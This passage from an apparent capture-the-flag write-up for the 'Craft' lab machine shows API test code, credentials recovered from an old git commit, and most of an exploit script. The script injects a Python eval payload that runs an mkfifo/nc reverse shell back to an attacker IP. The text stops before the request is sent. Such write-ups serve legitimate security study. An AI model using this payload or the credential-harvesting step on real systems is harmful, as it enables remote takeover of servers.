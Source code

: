     # create a sample brew with real ABV... should succeed.
    print("Create real ABV brew")
    brew_dict = {}
    brew_dict['abv'] = '0.15'
    brew_dict['name'] = 'bullshit'
    brew_dict['brewer'] = 'bullshit'
    brew_dict['style'] = 'bullshit'

    json_data = json.dumps(brew_dict)
    response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
    print(response.text)

Looking at older commits of the same file I found it had creds and has been deleted in newer one.

    dinesh:4aUh0A8PbVJxgd

I logged in to Gogs with those creds as Dinesh but there was nothing new to what is already been public.

# Exploitation



So, Right now I will exploit that **python code injection** vulnerability to get a reverse shell.

## Shell in a Docker



So, I'll use **test.py** and edit it a little bit.

    #!/usr/bin/env python3
    import requests
    import json
    import sys

    if (len(sys.argv) < 2):
        print(f"Usage: {sys.argv[0]} IP PORT")
        sys.exit()

    ip = sys.argv[1]
    port = sys.argv[2]

    response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
    json_response = json.loads(response.text)
    token =  json_response['token']

    headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }
    # The payload i am sending to Eval is just executing a reverse shell inside os.system
    payload = f'__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {ip} {port} >/tmp/f")'
    brew_dict = {}
    brew_dict['abv'] = payload
    brew_dict['name'] = 'bullshit'
    brew_dict['brewer'] = 'bullshit'
    brew_dict['style'] = 'bullshit'

